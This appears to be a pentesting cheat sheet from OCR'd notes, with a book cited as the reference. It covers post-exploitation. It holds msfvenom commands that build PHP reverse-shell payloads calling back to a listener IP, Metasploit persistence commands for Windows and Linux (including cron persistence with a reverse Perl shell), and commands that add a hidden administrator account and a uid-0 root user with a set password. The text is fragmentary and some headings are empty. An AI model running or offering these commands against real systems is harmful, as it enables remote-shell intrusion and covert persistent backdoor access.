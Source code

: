 msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.202 LPORT=5555 -f raw > shell.php

msfvenom -p php/reverse_php LHOST=10.11.0.202 LPORT=443 -f raw > backdoorphp1.php

msfvenom -p php/reverse_php LHOST=10.11.0.202 LPORT=8080 -f raw > backdoorphp2.php

## Persistance

### Windows Persistance

Persistance for windows

1.	run persistence -U -i 5 -p 443 -r 10.11.0.202

2.	run persistence -U -i 5 -p 666 -r 10.11.0.202

3.	set  LPORT 443

4.	exploit

or

•	create users and hide them

•	create backdoors in dll files

•	create a command hidden promt

MSF> execute -H -f cmd -i

•	Create a service account

net user Service_Account password /ADD

net localgroup administrators Service_Account /ADD

•	enable telnet service

meterpreter> run gettelnet -e

### VNC INJECT

Meterpreter VNCINJECT module

#### Linux Persistance

1.	persistance for linux
2.	use exploit/linux/local/cron_persistence
3.	set session 1
4.	set payload cmd/unix/reverse_perl
5.	set LHOST 10.11.0.202
6.	set LPORT 444
7.	run

useradd -o -u 0 hacker  -G root  -d /home/hacker -p P@ssw0rd123!  -m

#### NETCAT AS PERSISTANCE

REF: Mastering Kali Linux for Advanced penetration testing


